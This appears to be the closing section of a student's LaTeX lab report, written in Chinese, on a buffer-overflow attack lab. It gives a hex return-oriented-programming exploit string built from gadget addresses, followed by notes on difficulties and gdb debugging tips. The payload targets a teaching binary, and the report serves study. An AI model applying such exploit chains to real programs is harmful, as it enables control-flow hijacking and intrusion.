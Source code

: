 \documentclass[12pt,a4paper]{article}
\begin{document}
最终结果为

\begin{lstlisting}
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

e1 1a 40 00 00 00 00 00
b5 1a 40 00 00 00 00 00
95 1a 40 00 00 00 00 00
48 00 00 00 00 00 00 00
37 1b 40 00 00 00 00 00
0d 1b 40 00 00 00 00 00
96 1b 40 00 00 00 00 00
c7 1a 40 00 00 00 00 00
b5 1a 40 00 00 00 00 00
ee 19 40 00 00 00 00 00
33 37 36 31 62 61 38 30
00 00 00 00 00 00 00 00
\end{lstlisting}

\section{遇到的困难}

\begin{enumerate}[1.]
    \item 使用 \verb|gdb| 工具查看堆栈信息时，低地址在上，高地址在下，与平常的堆栈图恰好相反，需要一定的思维转换才能看懂。
    \item 第5题开始时没有找到 \verb|add_xy| 函数，尝试只使用 \verb|mov, pop, ret| 这几个指令完成攻击任务，浪费了不少时间。后来发现这是根本不可能的，才开始寻找有关算术运算的代码块，最终找到 \verb|add_xy| 这个函数，顺利完成了实验任务。
\end{enumerate}

\section{技巧与经验}

通过这次实验，我对 \verb|gdb| 的使用方法更加了解，下面简单介绍一下我使用 \verb|gdb| 调试的技巧与经验。

\begin{enumerate}[1.]
    \item 如果是调试自己的代码，应加上 \verb|-g| 编译选项，这样能通过 \verb|l| 命令查看源码。
    \item 如果是调试他人编译好的代码，首先通过 \verb|objdump| 反汇编，找到程序的入口点，例如 \verb|main|，然后启动 \verb|gdb|，使用 \verb|b main| 在程序入口打断点，然后 \verb|r| 运行程序。
    \item 使用 \verb|disas| 打印出附近的几行汇编代码，使用 \verb|until *line_number| 能快速执行到所需的指令地址，也可使用 \verb|ni| 命令逐行执行汇编指令。
    \item 可使用 \verb|p $rsp| 打印栈顶指针，使用 \verb|x/16b $rsp| 查看栈上存放的值。
\end{enumerate}
\end{document}
